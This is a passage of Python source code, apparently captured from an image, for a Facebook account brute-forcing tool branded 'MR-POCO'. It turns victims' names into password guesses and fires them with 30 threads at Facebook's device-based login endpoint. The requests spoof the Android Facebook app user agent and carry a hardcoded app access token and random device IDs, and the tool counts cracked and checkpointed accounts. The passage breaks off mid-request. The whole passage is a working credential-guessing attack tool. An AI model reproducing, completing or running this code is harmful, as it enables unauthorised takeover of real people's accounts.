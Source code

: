		plist.append('@@first@@')
		plist.append('First123')
		plist.append('last123')
		plist.append('first###')
		plist.append('@@@###')
		plist.append('free fire')
	else:
		try:
			clear();print(f'{xd} EXAMPLE {xdxx} PASSWORD LIMIT {R}|{G}10-25{R}|');linex()
			ps_limit = int(input(f'{xdx} ENTER PASSWORD LIMIT {xdxx} '))
		except:
			ps_limit = 5
		clear();print(f'{xd} EXAMPLE {xdxx} first12 {R}|{G} first123 {R}|{G} firstlast ');linex()
		for i in range(ps_limit):
			plist.append(input(f'{xd} PASSWORD NO{R}|{G}{i+1}{R}| {xdxx} '))
	clear();print(f'{xd} CP UID SHOW {xdxx} {R}|{G}y{R}|{G}n{R}|');linex();cpx=input(f"{xdx} SELECT {xdxx} ")
	if cpx in ['y','Y','yes','Yes','1']:
		pcp.append('y')
	else:
		pcp.append('n')
	with tred(max_workers=30) as __poco__:
		clear();total_ids = str(len(fo))
		print(f'{xd} UID{R}|{G}METHOD {xdxx}{W} {total_ids}{R}|{W}M{methd} ');print(f"{xd} IF NO RESULT {R}|{G}ON{R}|{G}OFF{R}|{G} AIRPLANE MODE");linex()
		for user in fo:
			ids,names = user.split('|')
			passlist = plist
			if methd in ['1']:
				__poco__.submit(___M1___,ids,names,passlist)
			elif methd in ['2']:
				__poco__.submit(___M2___,ids,names,passlist)
			else:
				__poco__.submit(___M1___,ids,names,passlist)
	print('\033[1;37m');linex();print(f'{xd} THE PROCESS HAS COMPLETED');print(f'{xd} TOTAL OK{R}|{G}CP {xdxx} '+str(len(oks))+'/'+str(len(cps)));linex();exit()
#--------------------< FILE METHOD M1 >--------------------#
def ___M1___(ids,names,passlist):
        try:
                global loop,oks,cps
                sys.stdout.write(f'\r\r{R}<{W}={R}>{W}-{R}<{G}MR-POCO{R}>{W}-{R}|{T}%s{R}|{W}-{R}|{G}%s{R}|{W}-{R}|{P}%s{R}| '%(loop,len(oks),len(cps)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try:
                        ln = names.split(' ')[1]
                except:
                        ln = fn
                for pw in passlist:
                        pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                        with requests.Session() as session:
                        	M1 = "[FBAN/FB4A;FBAV/405.0.0.23.72;FBBV/440002512;FBDM/{density=3.0,width=720,height=2176};FBLC/en_Qaag_US;FBRV/359080319;FBCR/Telenor;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1907_19;FBSV/8.1.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]"
                        	data = {"adid": str(uuid.uuid4()),
                        	"format": "json","device_id": str(uuid.uuid4()),
                        	"cpl": "true","family_device_id":str(uuid.uuid4()),
                        	"credentials_type": "device_based_login_password",
                        	"error_detail_type": "button_with_disabled",
                        	"source": "device_based_login",
                        	"email": ids,"password": pas,
                        	"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
                        	"generate_session_cookies": "1",
                        	"meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),